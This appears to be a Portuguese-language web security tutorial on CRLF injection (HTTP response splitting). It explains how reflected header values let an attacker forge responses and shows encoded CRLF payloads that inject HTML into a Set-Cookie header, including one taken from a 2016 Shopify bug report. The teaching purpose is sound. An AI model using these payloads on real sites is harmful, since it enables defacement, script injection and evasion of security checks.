 # Carriage Return Line Feed

### O que é:

A partir desta vulnerabilidade será muito importante o leitor entender bem o funcionamento da web, então caso ainda esteja com dúvidas, releia os artigos sobre o [Protocolo HTPP](Protocolo%20HTTP-HTTPS.md), e o [Cliente-Servidor na web](Cliente-Servidor%20na%20WEB.md), feito isto, vamos à  vulnerabilidade.

O CRLF são caracteres usados para pular linhas, eles correspondem respectivamente, ao fim de uma linha e o início de outra para muitos protocolos, incluindo o HTTP, nele estes caracteres são representados por %0D %0A eles são, respectivamente, \r \n.

Achar esta vulnerabilidade é um pouco difícil pois o atacante deve estar atento as requests e responses mas caso consiga encontrá-la ele pode desde modificar uma response até criar um Firewall Evasion, que é quando o atacante consegue burlar verificações de segurança.

### Funcionamento Técnico:

Esta vulnerabilidade ocorre quando o atacante injeta um código no cabeçalho da request e este valor é "refletido" no cabeçalho da response, assim, quando é feita a injeção de caracteres CRLF ele pode criar sua própria response, conseguindo assim até criar uma página html inteira.

O local em que mais se encontra este problema é no cabeçalho Set-Cookie da response, mas ele pode ser encontrado em outros locais.

Imagine que ao inserir seus dados em um input você envie uma request parecida com esta para o servidor:


```http
GET /destino.php?nome=teste HTTP/1.1
Host: localhost
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:76.0) Gecko/20100101 Firefox/76.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
Accept-Language: pt-BR,pt;q=0.8,en-US;q=0.5,en;q=0.3
Accept-Encoding: gzip, deflate
Connection: close
Referer: http://localhost/home.html
Upgrade-Insecure-Requests: 1
```
e o servidor devolva esta response:

```http
HTTP/1.1 200 OK
Date: Fri, 15 May 2020 13:54:45 GMT
Server: Apache/2.4.41 (Debian)
Set-Cookie: Cookie=teste; expires=Fri, 15-May-2020 13:54:47 GMT; Max-Age=2
Content-Length: 18
Connection: close
Content-Type: text/html; charset=UTF-8

Hello World!
```
Percebido que nome == Cookie, você pode injetar crlf para gerar uma uma quebra de linha, inserindo assim, o que você quiser abaixo de Cookie.

Exemplo:

```http
GET /destino.php?nome=teste%0d%0a%0d%0a%3Chtml%3E%3Cbody%3EVoce%20foi%20hackeado%3C%2Fbody%3E%3C%2Fhtml%3E HTTP/1.1
Host: 192.168.15.9
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:76.0) Gecko/20100101 Firefox/76.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
Accept-Language: pt-BR,pt;q=0.8,en-US;q=0.5,en;q=0.3
Accept-Encoding: gzip, deflate
Connection: close
Referer: http://192.168.15.9/home.html
Upgrade-Insecure-Requests: 1
```
response:
```http
HTTP/1.1 200 OK
Date: Fri, 15 May 2020 14:00:07 GMT
Server: Apache/2.4.41 (Debian)
Set-Cookie: Cookie=teste

<html><body>Voce foi hackeado></body</html>; expires=Fri, 15-May-2020 14:00:09 GMT; Max-Age=2
Content-Length: 65
Connection: close
Content-Type: text/html; charset=UTF-8

Hello World!
```
### Exemplo:

Este report foi feito em 2016 para a empresa shopify, nele o pesquisador percebeu que a ultima url que ele tinha acessado era refletida no cookie, então caso injetasse um código crlf seria possível modificar a response.

A url vulnerável era esta: https://v.shopify.com/last_shop?shop=krankopwnz.myshopify.com 

O pesquisador injetou ```%0d%0aContent-Length:%200%0d%0a%0d%0aHTTP/1.1%20200%20OK%0d%0aContent-Type:%20te\
xt/html%0d%0aContent-Length:%2019%0d%0a%0d%0a<html>deface</html>``` após o fim da url, gerando assim uma página com o deface.

PoC:![](https://i.imgur.com/0lEiNeb.png)

### Como explorar:

Para explorar esta vulnerabilidade o pesquisador deve estar atento as requests e as responses da aplicação, para perceber quando alguns parâmetros estão sendo refletidos, para então, tentar montar um payload.

É interessante notar que esta vulnerabilidade pode gerar problemas como HTML Injection, Cross-Site Scripting e erros de logs no servidor, logo para extrair o máximo deste problema, esteja atento a todos estes problemas.
